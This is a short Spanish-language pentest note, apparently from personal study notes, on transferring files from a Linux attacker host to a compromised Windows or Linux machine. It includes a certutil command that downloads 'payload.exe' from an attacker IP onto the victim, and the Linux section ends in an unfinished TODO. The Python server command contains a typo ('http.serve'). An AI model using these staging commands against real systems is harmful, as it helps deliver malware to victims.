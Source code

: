 # From Linux to Windows

1. Creamos un servidor simple con python en la ruta donde esté el fichero que queremos compartir: `python -m http.serve 80`
2. En la máquina comprometida windows, usamos el siguiente comando para hacer una petición:
		
	![[Pasted image 20250210011041.png]]
`certutil -urlcache -f http://ip/payload.exe payload.exe`

# From Linux to Linux

1. Creamos servidor simple con python.
	`python -m http.serve 80`
2. Hacemos una petición desde la máquina víctima:
	2.1 curl ......TODO..



NOTA : Con Python version<3 usar :
python -m SimpleHTTPServer 8000

	


		
